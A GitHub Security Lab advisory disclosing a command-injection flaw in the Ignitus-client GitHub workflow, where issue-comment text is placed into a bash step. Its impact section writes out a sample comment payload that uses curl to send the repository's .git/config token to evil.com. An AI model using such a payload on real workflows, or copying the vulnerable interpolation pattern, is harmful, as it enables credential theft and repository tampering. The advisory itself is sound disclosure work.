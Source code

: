 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">February 3, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-193: Command injection in Ignitus/Ignitus-client workflow</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/16/2020: Report sent to vendor</li>
  <li>10/29/2020: Vendor acknowledges</li>
  <li>10/29/2020: Vendor fixes the issue</li>
</ul>

<h2 id="summary">Summary</h2>

<p>The <a href="https://github.com/Ignitus/Ignitus-client/blob/master/.github/workflows/pr-preview.yml">‘pr-preview.yml’ GitHub workflow</a> is vulnerable to arbitrary command injection.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/Ignitus/Ignitus-client">Ignitus/Ignitus-client GitHub repository</a></p>

<h2 id="tested-version">Tested Version</h2>

<p><a href="https://github.com/Ignitus/Ignitus-client/blob/master/.github/workflows/pr-preview.yml">pr-preview.yml</a> from the master branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-the-public-github-issue-comment-is-used-to-format-a-shell-command">Issue: The public GitHub issue comment is used to format a shell command</h3>

<p>When a user comments on a public issue it automatically starts the <a href="https://github.com/Ignitus/Ignitus-client/blob/master/.github/workflows/pr-preview.yml">pr-preview.yml</a> GitHub workflow. The comment text is used to format a bash script.</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="na">on</span><span class="pi">:</span>
  <span class="na">issue_comment</span><span class="pi">:</span>
    <span class="na">types</span><span class="pi">:</span> <span class="pi">[</span><span class="nv">created</span><span class="pi">]</span>
<span class="na">jobs</span><span class="pi">:</span>
  <span class="na">deploy_preview</span><span class="pi">:</span>
    <span class="na">name</span><span class="pi">:</span> <span class="s">Deploy Preview of PR</span>
    <span class="na">runs-on</span><span class="pi">:</span> <span class="s">ubuntu-latest</span>
    <span class="na">steps</span><span class="pi">:</span>
      <span class="pi">-</span> <span class="na">uses</span><span class="pi">:</span> <span class="s">actions/setup-node@v1</span>
      <span class="pi">-</span> <span class="na">uses</span><span class="pi">:</span> <span class="s">actions/checkout@v2</span>
      <span class="pi">-</span> <span class="na">run</span><span class="pi">:</span> <span class="s">npm install yaml -s</span>
      <span class="pi">-</span> <span class="na">run</span><span class="pi">:</span> <span class="s">echo "::set-env name=worker::$( node ./scripts/deploy-preview/verify.js ${{ github.event.comment.user.login }} "${{ github.event.comment.body }}" )"</span>
<span class="nn">...</span>
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary command injection into the bash script. For example a user may comment with <code class="language-plaintext highlighter-rouge">"; curl -d @.git/config http://evil.com; sleep 10 )"</code> which will exfiltrate the temporary GitHub repository authorization token to the attacker controlled server. Although the token is not valid after the workflow finishes, since the attacker controls the execution of the workflow he or she can delay it to give the malicious server time to modify the repository. To make the attack less visible the attacker may modify the comment later.</p>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-193</code> in any communication regarding this issue.</p>
